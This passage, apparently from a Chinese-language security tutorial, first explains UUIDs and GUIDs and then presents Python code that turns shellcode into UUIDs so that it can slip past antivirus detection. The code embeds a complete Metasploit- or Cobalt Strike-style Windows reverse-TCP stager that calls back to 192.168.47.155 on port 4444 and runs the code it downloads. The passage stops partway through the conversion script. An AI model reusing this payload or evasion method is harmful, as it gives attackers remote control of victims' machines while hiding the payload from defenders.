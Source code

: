 UUID 通常用于以下场景：

- 数据库中的主键：用 UUID 作为数据库表的主键，确保每个记录都具有唯一的标识符，避免数据冲突。
- 分布式系统中的对象标识符：在分布式系统中，由于系统组件可能位于不同的计算机或网络上，使用 UUID 作为对象的唯一标识符有助于确保唯一性。
- 会话标识符：在网络应用中，使用 UUID 作为会话标识符可以确保每个会话都有唯一的识别码。
- 临时文件名：当需要创建临时文件时，使用 UUID 作为文件名可以确保不会与现有文件冲突。



## 什么是GUID

GUID（Globally Unique Identifier，全局唯一标识符）是一个 128 位长的数字，用于在软件中为对象分配唯一的标识符。GUID 和 UUID（Universally Unique Identifier）基本上是相同的概念，只是术语上的差别。实际上，GUID 是 UUID 的一种实现。

GUID 通常表示为 32 个十六进制数字，分为五组，用连字符分隔，形式如下：

```
550e8400-e29b-41d4-a716-446655440000
```



## shellcode转uuid

这段代码首先将包含 shellcode 的字节数组进行处理，确保长度是 16 的倍数。然后，将 shellcode 分为 16 字节的块，并为每个块创建一个 UUID，将这些 UUID 存储在一个列表中。最后，将这些 UUID 以 C 语言数组的形式输出

```python
import uuid

#使用cs或msf生成的python类型的shellcode
shellcode = b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shellcode += b"\x30\x89\xe5\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
shellcode += b"\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shellcode += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shellcode += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x8b\x48"
shellcode += b"\x18\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
shellcode += b"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shellcode += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shellcode += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shellcode += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shellcode += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shellcode += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
shellcode += b"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50"
shellcode += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shellcode += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shellcode += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shellcode += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shellcode += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shellcode += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shellcode += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shellcode += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shellcode += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shellcode += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shellcode += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x6a\x00\x53\xff\xd5"

# 用于存放shellcode转换成的uuid
uuid_list = []

# 确保 shellcode 长度是 16 的倍数，用 NOPs (\x90) 进行填充
```